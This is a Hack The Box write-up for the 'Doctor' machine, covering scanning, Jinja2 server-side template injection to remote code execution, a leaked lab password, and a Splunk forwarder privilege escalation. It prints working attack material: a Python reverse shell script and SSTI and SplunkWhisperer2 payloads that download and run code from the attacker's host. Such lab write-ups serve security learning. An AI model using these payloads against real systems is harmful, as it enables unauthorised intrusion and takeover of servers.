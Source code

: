 ```yaml
---
title: Doctor
date: 2020-12-17 12:00:00 +0800
categories: [HackTheBox, Machines]
# tags: ["Hack The Box", "Write-Up", "Server Side Template Injection (SSTI)", "Splunk Universal Forwarder (UF) Privilege Escalation", "Remote Code Execution (RCE)"]     # TAG names should always be lowercase
tags: ["hack the box", write-up, ssti, "splunk uf privilege escalation"]
image: /assets/posts/ctf/hackthebox/machines/doctor/img/doctor.png
---
```


# TL;DR

---

> Remote code execution (RCE) via server side template injection (SSTI) `->` Password disclosure through "/var/log/apache2/backup" `->` Splunk Universal Forwarder (UF) privilege escalation

---

# Enumeration

---

## masscan

```terminal
$ sudo masscan -p1-65535 --rate 1000 -e eth0 -Pn 10.10.10.209 | tee doctor.masscan

Discovered open port 80/tcp on 10.10.10.209                                    
Discovered open port 22/tcp on 10.10.10.209                                    
Discovered open port 8089/tcp on 10.10.10.209 
```

## nmap

```terminal
$ sudo nmap -p$(cat doctor.masscan | awk '{print $4}' | awk -F "/" '{print $1}' | sort -u | tr "\n" "," | sed s/,$//) -Pn -A -sC -sV --version-intensity 5 -oA doctor.nmap 10.10.10.209

# Nmap 7.91 scan initiated Fri Dec  4 16:51:09 2020 as: nmap -p22,80,889 -Pn -A -sC -sV --version-intensity 5 -oA doctor.htb 10.10.10.209
Nmap scan report for 10.10.10.209
Host is up (0.28s latency).

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 59:4d:4e:c2:d8:cf:da:9d:a8:c8:d0:fd:99:a8:46:17 (RSA)
|   256 7f:f3:dc:fb:2d:af:cb:ff:99:34:ac:e0:f8:00:1e:47 (ECDSA)
|_  256 53:0e:96:6b:9c:e9:c1:a1:70:51:6c:2d:ce:7b:43:e8 (ED25519)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Doctor
8089/tcp open  ssl/http Splunkd httpd
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2020-09-06T15:57:27
|_Not valid after:  2023-09-06T15:57:27
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (92%), Linux 5.0 (92%), Linux 5.0 - 5.4 (91%), Linux 5.3 - 5.4 (91%), Linux 2.6.32 (91%), Linux 5.0 - 5.3 (90%), Crestron XPanel control system (90%), Linux 5.4 (89%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   269.77 ms 10.10.14.1
2   270.65 ms 10.10.10.209

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Dec  4 16:52:07 2020 -- 1 IP address (1 host up) scanned in 57.57 seconds
```

---

# Exploitation

---

Accessing `http://10.10.10.209/` shows email address `info@doctors.htb`. Declare domain and IP address in `/etc/hosts`.

![Landing Page](/assets/posts/ctf/hackthebox/machines/doctor/img/landing_page.png)
_Landing page_

```terminal
$ echo "10.10.10.209    doctors.htb" >> /etc/hosts | cat /etc/hosts

### CTF
## HackTheBox
# Doctor
10.10.10.209    doctors.htb
```

`http://doctors.htb` brought us to `Doctor Secure Messaging` and viewing the source code shows HTML comment with hidden `/archive` directory.

![Doctor Secure Messaging](/assets/posts/ctf/hackthebox/machines/doctor/img/dsm.png)
_Doctor Secure Messaging_

![HTML Source Code](/assets/posts/ctf/hackthebox/machines/doctor/img/dsm_source.png)
_Source code shows commented `/archive` directory_

whatweb shows application is developed using `python`.

```terminal
$ whatweb http://doctors.htb/login?next=%2F

http://doctors.htb/login?next=%2F [200 OK] Bootstrap[4.0.0], Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/1.0.1 Python/3.8.2], IP[10.10.10.209], JQuery, PasswordField[password], Python[3.8.2], Script, Title[Doctor Secure Messaging - Login], Werkzeug[1.0.1]
```

## Server Side Template Injection (SSTI)

To perform [**server side template injection**](https://portswigger.net/research/server-side-template-injection), first we need to create user on `http://doctors.htb/register`.

![Register User](/assets/posts/ctf/hackthebox/machines/doctor/img/dsm_register.png)
_Register user_

After logged in, post a comment with `{{"{{5*'dug.'"}}}}`. What this does is, it will print out `dug.` up to `five (5) times`.

![Comment](/assets/posts/ctf/hackthebox/machines/doctor/img/dsm_comment.png)
_Inject on comment title_

> SSTI Output: `dug.dug.dug.dug.dug.`

To trigger the server side template injection (SSTI), we need to access the `http://doctors.htb/archive`.

![Archive](/assets/posts/ctf/hackthebox/machines/doctor/img/dsm_archive.png){: width="700"}
_Trigger SSTI via `/archive`_

> We use this [**link**](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/) as reference to conduct `remote code execution (RCE)` via server side template injection (SSTI).

### Remote Code Execution (RCE)

#### Execute command `id`

```python
# payload

 {{"{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()"}}}}
```
![RCE](/assets/posts/ctf/hackthebox/machines/doctor/img/dsm_id.png)
_Post comment with `id` command_

![RCE](/assets/posts/ctf/hackthebox/machines/doctor/img/dsm_id_exec.png){: width="700"}
_Trigger `id` command via `/archive`_

#### Reverse shell

We crafted our own reverse shell payload. First, the server will download the `rev.py` that contains the python reverse shell, sleep for 5 seconds and execute the python script.

```python
# rev.py

import socket,subprocess,os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.2",9999))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

Start python webserver services on port 8000.

```terminal
$ python -m SimpleHTTPServer 8000
```

Create a new comment with the following payload:

```python
# payload

{{"{{request.application.__globals__.__builtins__.__import__('os').popen('wget http://10.10.14.2:8000/rev.py; sleep 5; python3 rev.py').read()"}}}}
```

![RCE](/assets/posts/ctf/hackthebox/machines/doctor/img/dsm_rev.png)
_Post new comment with crafted payload_

> Payload needs to be trigger on `/archive`

![RCE](/assets/posts/ctf/hackthebox/machines/doctor/img/rev_www.png)
_We got reverse shell (web)_

---

# Post Exploitation

---

## [USER: shaun] -> Password disclosure through `/var/log/apache2/backup`

Plaintext password is disclosed in `/var/log/apache2/backup` and `/etc/passwd` shows `shaun` as targeted user.

![Password](/assets/posts/ctf/hackthebox/machines/doctor/img/password.png)
_shaun's password disclose in `/var/log/apache2/backup`_

Credential captured as follows:

| User  | Password  |
|:-----:|:---------:|
| shaun | Guitar123 |

Then we escalated our privilege to user shaun.

![shaun](/assets/posts/ctf/hackthebox/machines/doctor/img/shaun.png)
_Escalate privilege to user shaun_

User flag can be found in `/home/shaun/user.txt`.

## [USER: root] -> Splunk Universal Forwarded (UF) privilege escalation

In `/opt` directory, it shows that `splunkforwarded` is installed on port `8089`.

![Splunk](/assets/posts/ctf/hackthebox/machines/doctor/img/splunk.png)
_splunkforwarded_

![Splunk](/assets/posts/ctf/hackthebox/machines/doctor/img/8089.png)
_Port 8089 shows Splunk server_

[**Article**](https://airman604.medium.com/splunk-universal-forwarder-hijacking-5899c3e0e6b2) about Splunk Universal Forwarded hijacking.

We escalated our privilege to root using this [**script**](https://github.com/cnotin/SplunkWhisperer2).

```terminal
$ python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.2 --username shaun --password Guitar123 --payload "wget http://10.10.14.2:8000/revRoot.py; sleep 5; python3 revRoot.py"
```

![root](/assets/posts/ctf/hackthebox/machines/doctor/img/root.png)
_Escalate privilege to root_

Root flag can be found in `/root/root.txt`.

---